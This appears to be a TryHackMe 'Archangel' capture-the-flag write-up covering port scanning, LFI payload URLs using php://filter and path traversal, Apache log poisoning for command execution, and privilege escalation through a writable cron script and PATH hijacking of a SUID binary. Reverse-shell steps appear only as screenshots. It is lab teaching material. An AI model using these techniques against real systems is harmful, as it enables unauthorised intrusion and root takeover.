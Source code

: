 # TryHackMe-Archangel

## Rustscan

```
rustscan -a 10.10.53.100 -- -A -sC -sV                                                     
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.                                                                                            
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |                                                                                            
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |                                                                                            
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'                                                                                            
The Modern Day Port Scanner.                                                                                                                        
________________________________________                                                                                                            
: https://discord.gg/GFrQsGy           :                                                                                                            
: https://github.com/RustScan/RustScan :                                                                                                            
 --------------------------------------                                                                                                             
😵 https://admin.tryhackme.com                                                    
[~] The config file is expected to be at "/root/.rustscan.toml"                                                                                     
[!] File limit is lower than default batch size. Consider upping with --ulimit. May cause harm to sensitive servers                                 
[!] Your file limit is very small, which negatively impacts RustScan's speed. Use the Docker image, or up the Ulimit with '--ulimit 5000'.          
Open 10.10.53.100:22                                                                            
Open 10.10.53.100:80                                                                                                                                
[~] Starting Script(s)                                                                                                                              
[>] Script to be run Some("nmap -vvv -p {{port}} {{ip}}")               

PORT   STATE SERVICE REASON         VERSION                                                                                                         
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)                                                    
| ssh-hostkey:                                                                                                                                      
|   2048 9f:1d:2c:9d:6c:a4:0e:46:40:50:6f:ed:cf:1c:f3:8c (RSA)                                                                                      
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDPrwb4vLZ/CJqefgxZMUh3zsubjXMLrKYpP8Oy5jNSRaZynNICWMQNfcuLZ2GZbR84iEQJrNqCFcbsgD+4OPyy0TXV1biJExck3OlriDBn3g
9trxh6qcHTBKoUMM3CnEJtuaZ1ZPmmebbRGyrG03jzIow+w2updsJ3C0nkUxdSQ7FaNxwYOZ5S3X5XdLw2RXu/o130fs6qmFYYTm2qii6Ilf5EkyffeYRc8SbPpZKoEpT7TQ08VYEICier9ND408
kGERHinsVtBDkaCec3XmWXkFsOJUdW4BYVhrD3M8JBvL1kPmReOnx8Q7JX2JpGDenXNOjEBS3BIX2vjj17Qo3V                                                              
|   256 63:73:27:c7:61:04:25:6a:08:70:7a:36:b2:f2:84:0d (ECDSA)                                                                                     
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBKhhd/akQ2OLPa2ogtMy7V/GEqDyDz8IZZQ+266QEHke6vdC9papydu1wlbdtMVdOPx1S6zxA4
CzyrcIwDQSiCg=                                                                                                                                      
|   256 b6:4e:d2:9c:37:85:d6:76:53:e8:c4:e0:48:1c:ae:6c (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIBE3FV9PrmRlGbT2XSUjGvDjlWoA/7nPoHjcCXLer12O
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.29 ((Ubuntu))
| http-methods:                                                           
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.29 (Ubuntu)           
|_http-title: Wavefire
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port

```

## PORT 80 (HTTP)

<img src="https://imgur.com/GzEgNx0.png"/>

Looking at the source code we can find a domain name

<img src="https://imgur.com/iJy5GmF.png"/>

So lets put this is in our `/etc/hosts` file 

<img src="https://imgur.com/AHoDyxC.png"/>

<img src="https://imgur.com/7xaEQXU.png"/>

Now we need to fuzz for a page that is "under development" for that I am going to use gobuster

<img src="https://imgur.com/4lPUfzJ.png"/>

And we found a `test.php` file 

<img src="https://imgur.com/Gd2C9KU.png"/>

<img src="https://imgur.com/Uu36x36.png"/>

On clicking the button we can see on the url there's a GET parameter being used so we can check for LFI (Local File Inclusion) vulnerability. I tired a bunch of LFI techniques like `../../../../etc/passwd` but it failed.

<img src="https://imgur.com/Q0shF8C.png"/>

I used this technqiue what it does is that encodes the whole page into base64.

`http://mafialive.thm/test.php?view=php://filter/convert.base64-encode/resource=/var/www/html/development_testing/mrrobot.php`

<img src="https://imgur.com/xX2Ztjv.png"/>

We can do this for `test.php` as well 

`http://mafialive.thm/test.php?view=php://filter/convert.base64-encode/resource=/var/www/html/development_testing/test.php`

<img src="https://imgur.com/XCpP94e.png"/>

<img src="https://imgur.com/fC8HCUD.png"/>

<img src="https://imgur.com/1JepDNl.png"/>

We can fuzz for /etc/passwd to do that we can use `wfuzz` 

```
http://mafialive.thm/test.php?view=/var/www/html/development_testing/test.php
```

<img src="https://imgur.com/9w9mWwk.png"/>

This doesn't help as we are getting the length of the response 286 and 310 which is not /etc/passwd so we can hide that response

<img src='https://imgur.com/ezKJMsw.png'/>

<img src="https://imgur.com/iy2dgWl.png"/>

For getting a reverse shell we need to poison the apach2 log file but before that we need to make sure that log is being accessbile.

<img src="https://imgur.com/CmWeia2.png"/>

We can access the log by the method above

```
http://mafialive.thm/test.php?view=/var/www/html/development_testing./.././.././.././..///var/log/apache2/access.log
```

<img src="https://imgur.com/HZQn93g.png"/>

Now intercept the request through burp suite and add php GET parameter code in `User-Agent`

<img src="https://imgur.com/VfRxInb.png"/>

Let's try to access the page with `&c=id` at the end 

```
http://mafialive.thm/test.php?view=/var/www/html/development_testing./.././.././.././..///var/log/apache2/access.log&c=id
```

<img src="https://imgur.com/Z7nw5hi.png"/>

We can at the bottom of the page that id command was executed so we can now get a reverse shell 

Host a file having a reverse shell payload in it

<img src="https://imgur.com/IhO8kGi.png"/>

<img src="https://imgur.com/2H5eTG1.png"/>

On running the command

<img src="https://imgur.com/qKInj6U.png"/>

Now we need to give it permission to execute

<img src="https://imgur.com/hxszvFV.png"/>

Execute it 

<img src="https://imgur.com/0U7ipES.png"/>

<img src="https://imgur.com/Cp5PN7m.png"/>

Checking cronjobs we see

<img src="https://imgur.com/lf6TYXh.png"/>

<img src="https://imgur.com/jzVwAJp.png"/>

We can see that this file can be written by anyone so we can write bash reverse shell to get a shell as user `archangel`

<img src="https://imgur.com/e58k880.png"/>

And we got the shell 

<img src="https://imgur.com/BFlBYEC.png"/>

We can see `backup` binary having a SUID also it belongs to root user and group , on using strings on it

<img src="https://imgur.com/uug0IBR.png"/>

We can see that it's using cp (copy command) so here PATH exploitation comes where we can create a binary with the same name having `bash` in it and then set PATH where that "fake" binary is stored

<img src="https://imgur.com/RaY1lES.png"/>
<img src="https://imgur.com/z6VnV18.png"/>

Now run that binary

<img src="https://imgur.com/qbDuXBW.png"/>

For simplicity I made /bin/bash a SUID to run as root

<img src="https://imgur.com/AKUekJQ.png"/>
